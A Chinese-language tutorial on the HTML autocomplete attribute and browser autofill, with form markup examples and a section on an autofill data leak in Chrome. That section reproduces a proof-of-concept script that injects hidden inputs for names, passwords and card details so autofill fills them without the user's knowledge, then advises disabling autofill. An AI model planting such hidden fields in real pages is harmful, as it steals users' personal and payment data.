 # 浏览器安全机制与 HTTP 响应设置

# AutoComplete: 自动填充

自动填充（Autofill ）是个非常重要的特性，它能帮助用户节省很多填写表单的时间，Google 也曾调查得出过结论[users complete forms up to 30% faster](https://developers.google.com/web/updates/2015/06/checkout-faster-with-autofill?hl=en)。我们首先来讨论下自动填充的工作原理，以及如何构建跨浏览器的自动填充表单。

早年各个浏览器之间对于自动填充并没有统一的标准，后来 HTML5 标准中加入了对于`autocomplete`属性的支持，以协调浏览器对于表单域的识别。最初`autocomplete`属性仅支持`on`与`off`两种取值，默认情况下是会启动自动填充功能以方便浏览器会将用户提交过的表单值记录下来以便复用。后续 HTML 标准中允许加入更多的[标识值](https://html.spec.whatwg.org/multipage/forms.html#autofill)，这些标识值会更加精确地告诉浏览器应将哪些记录值对应到哪些表单。譬如我们经常需要在网页上填写地址信息，如果我们希望浏览器能够记录下常用地址信息并且自动补全，那么可以使用如下声明方式：

```
<textarea name="shipping-address" autocomplete="shipping street-address"></textarea>
<input type="text" name="shipping-city" autocomplete="shipping address-level2">
<input type="text" name="shipping-state" autocomplete="shipping address-level1">
<input type="text" name="shipping-country" autocomplete="shipping country-name">
<input type="text" name="shipping-postal-code" autocomplete="shipping postal-code">
```

其他常见的自动填充的使用场景还包括电话号码、邮箱地址、即时通信账户等，完整的自动填充标识声明规范为：

```
[section-](optional) [shipping|billing](optional) [home|work|mobile|fax|pager](optional) [autofill field name]
```

其中`[home|work|mobile|fax|pager]`仅被用于电话、邮箱等场景。而完整的应用场景譬如是填写收货地址的收件人电话时：

```
<label for="foo">Mobile phone for delivery</label>
<input type="text" name="foo" id="foo" autocomplete="section-red shipping mobile tel">
```

最后，我们来看下自动填充在笔者电脑上的现实效果： ![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/E2941AAA-E9DC-4A9A-AA10-8506044FBBB2.png)

## 安全威胁

自动填充是个非常方便地浏览器特性，不过该特性在 Chrome 上也会存在一定的信息泄露的风险。Chrome 最近才修复了某个久负盛名[漏洞](https://yoast.com/autocomplete-security/)。简单而言，黑客能够利用自动填充窃取你并不想提交给该网站的信息，就如下面这个动图：

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-WChv_tXK8rqUASVNxrqNSw.gif)

Github 用户 [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) 使用如下脚本演示了该漏洞：

```js
var autocompletes = [
  "name",
  "honorific-prefix",
  "given-name",
  "additional-name",
  "family-name",
  "honorific-suffix",
  "nickname",
  "username",
  "new-password",
  "current-password",
  "organization-title",
  "organization",
  "street-address",
  "address-line1",
  "address-line2",
  "address-line3",
  "address-level4",
  "address-level3",
  "address-level2",
  "address-level1",
  "country",
  "country-name",
  "postal-code",
  "cc-name",
  "cc-given-name",
  "cc-additional-name",
  "cc-family-name",
  "cc-exp",
  "cc-exp-month",
  "cc-exp-year",
  "cc-csc",
  "cc-type",
  "transaction-currency",
  "transaction-amount",
  "language",
  "bday",
  "bday-day",
  "bday-month",
  "bday-year",
  "sex",
  "url",
  "photo",
  "tel",
  "tel-country-code",
  "tel-national",
  "tel-area-code",
  "tel-local",
  "tel-local-prefix",
  "tel-local-suffix",
  "tel-extension",
  "impp"
];

emailField.addEventListener("focus", function() {
  var wrap = autocompletes.reduce(function(wrapper, field) {
    var input = document.createElement("input");

    // Make them not focussable
    input.tabIndex = -1;
    input.autocomplete = field;

    wrapper.appendChild(input);
    return wrapper;
  }, document.createElement("div"));

  // Hide the wrapper
  wrap.classList.add("hidden");
  form.appendChild(wrap);

  // Inject the autocompletes once
  this.removeEventListener("focus", arguments.callee);
});
```

作者是建议大家关闭 Chrome 的自动填充功能，主要步骤为：

* 进入 Chrome 设置：`chrome://settings/autofill`
* 关闭当前模态窗口
* 反选自动填充选项

![](https://coding.net/u/hoteam/p/Cache/git/raw/master/2017/1/2/1-NKyNK5fQWXeLHLCOD_ZDaA.png)

